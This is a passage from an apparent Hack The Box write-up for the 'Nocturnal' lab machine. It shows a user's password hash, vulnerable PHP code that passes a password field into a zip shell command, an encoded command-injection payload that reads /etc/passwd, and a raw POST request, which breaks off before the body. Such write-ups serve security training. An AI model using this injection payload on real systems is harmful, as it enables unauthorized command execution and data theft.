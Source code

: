 Since we already had access to amanda which was basically administrator on the application, we only focused on `tobias` and his corresponding `hash`.

| Username | Hash                             |
| -------- | -------------------------------- |
| tobias   | 55c82b1ccd55ab219b3b109b07d5061d |

### After Hotfix: OS Command Injection

Update: Since HTB decided to apply a `Hotfix` which moves the `nocturnal_database.db` out of the `backup directory` the new approach is to go for `OS Command Injection`.

To find this vulnerability we had to look at the `admin.php` from within the `Admin Panel`. There we spotted that the `password field` had a potential `OS Command Injection` vulnerability.

- [http://nocturnal.htb/admin.php?view=admin.php](http://nocturnal.htb/admin.php?view=admin.php)

```php
<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }
```

We crafted a payload to achieve `Arbitrary Code Execution` and added it after our `legitimate password`.

```shell
%0Acat%09/etc/passwd<&0
```

```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive
```